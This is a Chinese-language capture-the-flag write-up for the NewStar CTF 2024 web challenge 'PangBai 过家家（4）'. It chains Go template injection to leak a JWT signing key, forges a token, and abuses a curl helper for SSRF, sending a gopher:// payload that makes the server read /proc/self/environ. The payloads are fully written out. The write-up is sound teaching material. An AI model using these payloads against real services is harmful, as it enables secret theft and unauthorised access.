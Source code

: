 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# PangBai 过家家（4）

<Container type="info">

本题已开源，关于题目源码和 EXP，详见：[cnily03-hive/PangBai-Go](https://github.com/cnily03-hive/PangBai-Go)
</Container>

---

根据题目附件所给的 hint，只需关注 `main.go` 文件即可，文件中定义了一个静态文件路由和三个路由：

```go
r.HandleFunc("/", routeIndex)
r.HandleFunc("/eye", routeEye)
r.HandleFunc("/favorite", routeFavorite)
```

在 `main.go` 的 `routeEye` 函数中发现了 `tmpl.Execute` 函数，通过分析，我们重点关注下面的代码片段：

```go
tmplStr := strings.Replace(string(content), "%s", input, -1)
tmpl, err := template.New("eye").Parse(tmplStr)

helper := Helper{User: user, Config: config}
err = tmpl.Execute(w, helper)
```

我们的输入 `input` 会直接作为模板字符串的一部分，与 Python 的 SSTI 类似，我们可以使用 `{{ "{"+"{" }}` `{{ "}"+"}" }}` 来获取上下文中的数据。

::: info GoLang 模板中的上下文

`tmpl.Execute` 函数用于将 tmpl 对象中的模板字符串进行渲染，第一个参数传入的是一个 Writer 对象，后面是一个上下文，在模板字符串中，可以使用 `{{ "{"+"{"+' . '+"}"+"}" }}` 获取整个上下文，或使用 `{{ "{"+"{"+' .A.B '+"}"+"}" }}` 进行层级访问。若上下文中含有函数，也支持 `{{ "{"+"{"+' .Func "param" '+"}"+"}" }}` 的方式传入变量。并且还支持管道符运算。

在本题中，由于 `utils.go` 定义的 `Stringer` 对象中的 `String` 方法，对继承他的每一个 struct，在转换为字符串时都会返回 `[struct]`，所以直接使用 `{{ "{"+"{"+' . '+"}"+"}" }}` 返回全局的上下文结构会返回 `[struct]`.

:::

访问 `/eye` 路由，默认就是 `{{ "{"+"{"+' .User '+"}"+"}" }}` 和返回的信息。根据上面代码片段的内容，我们追溯 `Helper` 和 `Config` 两个结构体的结构：

```go
type Helper struct {
    Stringer
    User   string
    Config Config
}

var config = Config{
    Name:          "PangBai 过家家 (4)",
    JwtKey:        RandString(64),
    SignaturePath: "./sign.txt",
}
```

可以泄露出 JWT 的密钥，只需输入 `{{ "{"+"{"+' .Config.JwtKey '+"}"+"}" }}` 即可：

![泄露 JWT 密钥](/assets/images/wp/2024/week4/pangbai4_1.png)

然后我们关注另一个路由 `/favorite`：

```go{3,8,28-32,38,52}
func routeFavorite(w http.ResponseWriter, r *http.Request) {

    if r.Method == http.MethodPut {

        // ensure only localhost can access
        requestIP := r.RemoteAddr[:strings.LastIndex(r.RemoteAddr, ":")]
        fmt.Println("Request IP:", requestIP)
        if requestIP != "127.0.0.1" && requestIP != "[::1]" {
            w.WriteHeader(http.StatusForbidden)
            w.Write([]byte("Only localhost can access"))
            return
        }

        token, _ := r.Cookie("token")

        o, err := validateJwt(token.Value)
        if err != nil {
            w.Write([]byte(err.Error()))
            return
        }

        if o.Name == "PangBai" {
            w.WriteHeader(http.StatusAccepted)
            w.Write([]byte("Hello, PangBai!"))
            return
        }

        if o.Name != "Papa" {
            w.WriteHeader(http.StatusForbidden)
            w.Write([]byte("You cannot access!"))
            return
        }

        body, err := ioutil.ReadAll(r.Body)
        if err != nil {
            http.Error(w, "error", http.StatusInternalServerError)
        }
        config.SignaturePath = string(body)
        w.WriteHeader(http.StatusOK)
        w.Write([]byte("ok"))
        return
    }

    // render

    tmpl, err := template.ParseFiles("views/favorite.html")
    if err != nil {
        http.Error(w, "error", http.StatusInternalServerError)
        return
    }

    sig, err := ioutil.ReadFile(config.SignaturePath)
    if err != nil {
        http.Error(w, "Failed to read signature files: "+config.SignaturePath, http.StatusInternalServerError)
        return
    }

    err = tmpl.Execute(w, string(sig))

    if err != nil {
        http.Error(w, "[error]", http.StatusInternalServerError)
        return
    }
}
```

可以看到 `/favorite` 路由下，网页右下角的内容实际上是一个文件读的结果，文件路径默认为 `config.SignaturePath` 即 `./sign.txt` 的内容。

而如果使用 PUT 请求，则可以修改 `config.SignaturePath` 的值，但需要携带使 `Name`<span data-desc>（Token 对象中是 `Name` 字段，但是 JWT 对象中是 `user` 字段，可以在 `utils.go` 中的 `validateJwt` 函数中看到）</span>为 `Papa` 的 JWT Cookie.

于是就有了解题思路：利用泄露的 `JwtKey` 伪造 Cookie，对 `/favorite` 发起 PUT 请求以修改 `config.SignaturePath`，然后访问 `/favorite` 获取文件读的内容。

然而 `/favorite` 中又强制要求请求必须来自于本地。

注意到下面的代码片段：

```go
func (c Helper) Curl(url string) string {
    fmt.Println("Curl:", url)
    cmd := exec.Command("curl", "-fsSL", "--", url)
    _, err := cmd.CombinedOutput()
    if err != nil {
        fmt.Println("Error: curl:", err)
        return "error"
    }
    return "ok"
}
```

这部分代码为 `Helper` 定义了一个 `Curl` 的方法，所以我们可以在 `/eye` 路由下通过 `{{ "{"+"{"+' .Curl "url" '+"}"+"}" }}` 调用到这个方法，这个方法允许我们在服务端发起内网请求，即 SSRF（服务端请求伪造）：

![SSRF](/assets/images/wp/2024/week4/pangbai4_2.png)

由于 `exec.Command` 中 `--` 的存在，我们没有办法进行任何命令注入或选项控制。而一般情况下，在没有其它参数指定时，curl 发起的 HTTP 请求也只能发送 GET 请求，题目要求的是 PUT 请求。

但 curl 命令并不是只能发起 HTTP 请求，它也支持其它很多的协议，例如 FTP、Gopher 等，其中 Gopher 协议能满足我们的要求。

::: info 关于 Gopher 协议
Gopher 协议是一个互联网早期的协议，可以直接发送任意 TCP 报文。其 URI 格式为：`gopher://远程地址/_编码的报文`，表示将**报文**原始内容发送到**远程地址**.
:::

我们先签一个 JWT：

![签一个 JWT](/assets/images/wp/2024/week4/pangbai4_3.png)

然后构造 PUT 请求原始报文，Body 内容为想要读取的文件内容，这里读取环境变量：

```http
PUT /favorite HTTP/1.1
Host: localhost:8000
Content-Type: text/plain
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiUGFwYSJ9.tgAEnWZJGTa1_HIBlUQj8nzRs2M9asoWZ-JYAQuV0N0
Content-Length: 18

/proc/self/environ
```

::: warning 注意
必须填正确 `Content-Length` 的值，以使报文接收方正确解析 HTTP Body 的内容，并且 Body 不应当包含换行符，否则读文件会失败。
:::

对请求进行编码和套上 Gopher 协议（[CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)Find_/_Replace(%7B'option':'Regex','string':'%5E'%7D,'gopher://localhost:8000/_',true,false,true,false)&input=UFVUIC9mYXZvcml0ZSBIVFRQLzEuMQ0KSG9zdDogbG9jYWxob3N0OjgwMDANCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbg0KQ29va2llOiB0b2tlbj1leUpoYkdjaU9pSklVekkxTmlJc0luUjVjQ0k2SWtwWFZDSjkuZXlKMWMyVnlJam9pVUdGd1lTSjkudGdBRW5XWkpHVGExX0hJQmxVUWo4bnpSczJNOWFzb1daLUpZQVF1VjBOMA0KQ29udGVudC1MZW5ndGg6IDE4DQoNCi9wcm9jL3NlbGYvZW52aXJvbg&ieol=CRLF&oeol=CRLF)）：

```plaintext
gopher://localhost:8000/_PUT%20%2Ffavorite%20HTTP%2F1%2E1%0D%0AHost%3A%20localhost%3A8000%0D%0AContent%2DType%3A%20text%2Fplain%0D%0ACookie%3A%20token%3DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9%2EeyJ1c2VyIjoiUGFwYSJ9%2EtgAEnWZJGTa1%5FHIBlUQj8nzRs2M9asoWZ%2DJYAQuV0N0%0D%0AContent%2DLength%3A%2018%0D%0A%0D%0A%2Fproc%2Fself%2Fenviron
```

然后调用 curl，在 `/eye` 路由访问 `{{ "{"+"{"+' .Curl "gopher://..." '+"}"+"}" }}` 即可。

![触发 Payload](/assets/images/wp/2024/week4/pangbai4_4.png)

然后访问 `/favorite` 路由即可得到 FLAG：

![FLAG](/assets/images/wp/2024/week4/pangbai4_5.png)
